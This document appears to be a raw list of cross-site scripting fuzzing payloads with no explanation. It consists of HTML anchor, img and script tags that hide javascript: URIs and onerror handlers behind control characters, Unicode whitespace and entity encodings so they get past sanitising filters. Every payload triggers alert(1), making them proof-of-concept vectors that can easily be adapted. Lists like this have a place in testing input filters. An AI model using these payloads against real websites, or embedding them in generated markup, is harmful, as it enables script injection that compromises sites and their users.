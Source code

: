 <a href="\xE2\x80\x85javascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x1Ejavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\xE2\x81\x9Fjavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="\x1Cjavascript:javascript:alert(1)" id="fuzzelement1">test</a> <a href="javascript\x00:javascript:alert(1)" id="fuzzelement1">test</a> <a href="javascript\x3A:javascript:alert(1)" id="fuzzelement1">test</a> <a href="javascript\x09:javascript:alert(1)" id="fuzzelement1">test</a> <a href="javascript\x0D:javascript:alert(1)" id="fuzzelement1">test</a> <a href="javascript\x0A:javascript:alert(1)" id="fuzzelement1">test</a> `"'><img src=xxx:x \x0Aonerror=javascript:alert(1)> `"'><img src=xxx:x \x22onerror=javascript:alert(1)> `"'><img src=xxx:x \x0Bonerror=javascript:alert(1)> `"'><img src=xxx:x \x0Donerror=javascript:alert(1)> `"'><img src=xxx:x \x2Fonerror=javascript:alert(1)> `"'><img src=xxx:x \x09onerror=javascript:alert(1)> `"'><img src=xxx:x \x0Conerror=javascript:alert(1)> `"'><img src=xxx:x \x00onerror=javascript:alert(1)> `"'><img src=xxx:x \x27onerror=javascript:alert(1)> `"'><img src=xxx:x \x20onerror=javascript:alert(1)> "`'><script>\x3Bjavascript:alert(1)</script> "`'><script>\x0Djavascript:alert(1)</script> "`'><script>\xEF\xBB\xBFjavascript:alert(1)</script> "`'><script>\xE2\x80\x81javascript:alert(1)</script> "`'><script>\xE2\x80\x84javascript:alert(1)</script> "`'><script>\xE3\x80\x80javascript:alert(1)</script> "`'><script>\x09javascript:alert(1)</script> "`'><script>\xE2\x80\x89javascript:alert(1)</script> "`'><script>\xE2\x80\x85javascript:alert(1)</script> "`'><script>\xE2\x80\x88javascript:alert(1)</script> "`'><script>\x00javascript:alert(1)</script> "`'><script>\xE2\x80\xA8javascript:alert(1)</script> "`'><script>\xE2\x80\x8Ajavascript:alert(1)</script> "`'><script>\xE1\x9A\x80javascript:alert(1)</script> "`'><script>\x0Cjavascript:alert(1)</script> "`'><script>\x2Bjavascript:alert(1)</script> "`'><script>\xF0\x90\x96\x9Ajavascript:alert(1)</script> "`'><script>-javascript:alert(1)</script> "`'><script>\x0Ajavascript:alert(1)</script> "`'><script>\xE2\x80\xAFjavascript:alert(1)</script> "`'><script>\x7Ejavascript:alert(1)</script> "`'><script>\xE2\x80\x87javascript:alert(1)</script> "`'><script>\xE2\x81\x9Fjavascript:alert(1)</script> "`'><script>\xE2\x80\xA9javascript:alert(1)</script> "`'><script>\xC2\x85javascript:alert(1)</script> "`'><script>\xEF\xBF\xAEjavascript:alert(1)</script> "`'><script>\xE2\x80\x83javascript:alert(1)</script> "`'><script>\xE2\x80\x8Bjavascript:alert(1)</script> "`'><script>\xEF\xBF\xBEjavascript:alert(1)</script> "`'><script>\xE2\x80\x80javascript:alert(1)</script> "`'><script>\x21javascript:alert(1)</script> "`'><script>\xE2\x80\x82javascript:alert(1)</script> "`'><script>\xE2\x80\x86javascript:alert(1)</script> "`'><script>\xE1\xA0\x8Ejavascript:alert(1)</script> "`'><script>\x0Bjavascript:alert(1)</script> "`'><script>\x20javascript:alert(1)</script> "`'><script>\xC2\xA0javascript:alert(1)</script> <img \x00src=x onerror="alert(1)"> <img \x47src=x onerror="javascript:alert(1)"> <img \x11src=x onerror="javascript:alert(1)"> <img \x12src=x onerror="javascript:alert(1)"> <img\x47src=x onerror="javascript:alert(1)"> <img\x10src=x onerror="javascript:alert(1)"> <img\x13src=x onerror="javascript:alert(1)"> <img\x32src=x onerror="javascript:alert(1)"> <img\x47src=x onerror="javascript:alert(1)"> <img\x11src=x onerror="javascript:alert(1)"> <img \x47src=x onerror="javascript:alert(1)"> <img \x34src=x onerror="javascript:alert(1)"> <img \x39src=x onerror="javascript:alert(1)"> <img \x00src=x onerror="javascript:alert(1)"> <img src\x09=x onerror="javascript:alert(1)"> <img src\x10=x onerror="javascript:alert(1)"> <img src\x13=x onerror="javascript:alert(1)"> <img src\x32=x onerror="javascript:alert(1)"> <img src\x12=x onerror="javascript:alert(1)"> <img src\x11=x onerror="javascript:alert(1)"> <img src\x00=x onerror="javascript:alert(1)"> <img src\x47=x onerror="javascript:alert(1)"> <img src=x\x09onerror="javascript:alert(1)"> <img src=x\x10onerror="javascript:alert(1)"> <img src=x\x11onerror="javascript:alert(1)"> <img src=x\x12onerror="javascript:alert(1)"> <img src=x\x13onerror="javascript:alert(1)"> <img[a][b][c]src[d]=x[e]onerror=[f]"alert(1)"> <img src=x onerror=\x09"javascript:alert(1)"> <img src=x onerror=\x10"javascript:alert(1)"> <img src=x onerror=\x11"javascript:alert(1)"> <img src=x onerror=\x12"javascript:alert(1)"> <img src=x onerror=\x32"javascript:alert(1)"> <img src=x onerror=\x00"javascript:alert(1)"> <a href=java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:javascript:alert(1)>XXX</a> <img src="x` `<script>javascript:alert(1)</script>"`